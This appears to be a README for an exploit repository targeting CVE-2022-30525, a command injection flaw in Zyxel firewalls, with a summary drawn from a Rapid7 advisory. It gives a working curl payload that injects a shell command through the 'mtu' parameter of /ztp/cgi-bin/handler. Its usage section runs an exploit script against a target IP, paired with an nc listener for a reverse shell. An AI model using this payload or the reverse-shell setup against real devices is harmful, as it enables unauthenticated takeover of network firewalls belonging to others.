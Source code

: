 # CVE-2022-30525 (FIXED): Zyxel Firewall Unauthenticated Remote Command Injection

## CVE-2022-30525: Unauthenticated remote command injection(https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/)
The affected models are vulnerable to unauthenticated and remote command injection via the administrative HTTP interface. Commands are executed as the nobody user. This vulnerability is exploited through the /ztp/cgi-bin/handler URI and is the result of passing unsanitized attacker input into the os.system method in lib_wan_settings.py. The vulnerable functionality is invoked in association with the setWanPortSt command. An attacker can inject arbitrary commands into the mtu or the data parameter. Belowis an example curl that will cause the firewall to execute ping 192.168.1.220:

'''python
curl -v --insecure -X POST -H "Content-Type: application/json" -d '{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}' https://192.168.1.1/ztp/cgi-bin/handler
'''i


## Usages

'''python
./cve-2022-30525.sh target-ip reverse-ip port

nc -lvnp port
'''
